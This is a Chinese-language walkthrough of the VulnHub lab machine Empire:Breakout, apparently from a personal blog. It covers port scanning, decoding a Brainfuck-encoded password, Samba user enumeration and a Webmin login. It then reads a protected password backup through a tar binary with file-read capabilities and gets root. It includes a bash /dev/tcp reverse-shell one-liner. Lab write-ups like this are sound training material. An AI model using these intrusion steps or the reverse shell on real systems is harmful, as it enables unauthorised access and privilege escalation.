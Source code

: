 ```yaml
---
title: vulnhub 做题 Empire:Breakout
tags: [penetration]
date: 2024-10-13 00:00:00
categories: [penetration]
excerpt: day2
---
```


## vulnhub 做题 Empire:Breakout

### 扫描

```zsh
└─$ nmap -p 1-65535 -sV 192.168.140.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 01:42 EDT
Nmap scan report for 192.168.140.48
Host is up (0.0011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
```

除了80还开了四个端口

80是一个apache的web服务，10000和20000一样，都是一个https的登陆界面。139和445还不知道是什么。


![](/img/pene/3.png)


实际上，80端口这个apache的默认测试页html里藏了东西 ~~（谁能想到这种页面会藏东西😶‍🌫️）~~

如果用curl查看这个页面就很容易发现，因为藏的东西在最后

```
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

我也不认识这是个什么加密，去问了一下大模型，说是Brainfuck代码，用bugkuctf的工具解密出来是这个么个东西：`.2uqPEfj3D<P'a-3`

那两个不知道是什么的端口去查了一下：Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件 ~~（去msf搜了一下发现根本没有4.6.2这么新版本的漏洞）~~

查了一下（ https://blog.csdn.net/redwand/article/details/113730414 ），说是smb协议可以用enum4linux进行信息收集

```zsh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                          
S-1-22-1-1000 Unix User\cyber (Local User) 
```

扫到了一个用户名cyber，结合前面解密出来的东西，试一下这个组合是不是web的账户。

10000登不上去，20000登进去了，似乎是一个邮件系统

![](/img/pene/4.png)

左下角有一个功能可以打开一个命令行，/home/cyber 下有一个flag

```zsh
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

天真的我以为到这里就完了，但是看了一眼别人的题解，还有后续😭

用户目录下有一个tar，并且是能读取任意文件的

```zsh
[cyber@breakout ~]$ getcap ./tar
./tar cap_dac_read_search=ep
```

给这个的东西应该是让压缩一个不能读取的文件，再解压出来，就是一个能读取的了

在文件系统里找，发现/var目录下有一个.old_pass.bak，并且不能读，应该就是他了

```zsh
[cyber@breakout ~]$ ./tar -czvf test.tar.gz /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
/var/backups/.old_pass.bak
[cyber@breakout ~]$ ls
tar
test.tar.gz
user.txt
[cyber@breakout ~]$ ./tar -zxvf ./test.tar.gz
var/backups/.old_pass.bak
[cyber@breakout ~]$ ls
tar
test.tar.gz
user.txt
var
[cyber@breakout ~]$ cat ./var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h

[cyber@breakout ~]$
```

这应该就是root的密码，但是在这个webshell里su不给输入密码的机会，所以反弹一个shell

（直接在vmware上也可以登录了）

`bash -i >& /dev/tcp/192.168.169.128/9999 0>&1`

但是kali能ping通靶机，靶机ping不通kali，反弹shell也起不来 （Network is unreachable）

把靶机和kali都用nat就好了，也不知道为啥😶‍🌫️ ~~（计网没好好学的下场）~~

```zsh
[root@breakout ~]$ cat ./rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```


> 还有一种方法是，那个20000端口的webmin也是可以用root账号登陆的，直接登录进去就是root
> 
> 😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️

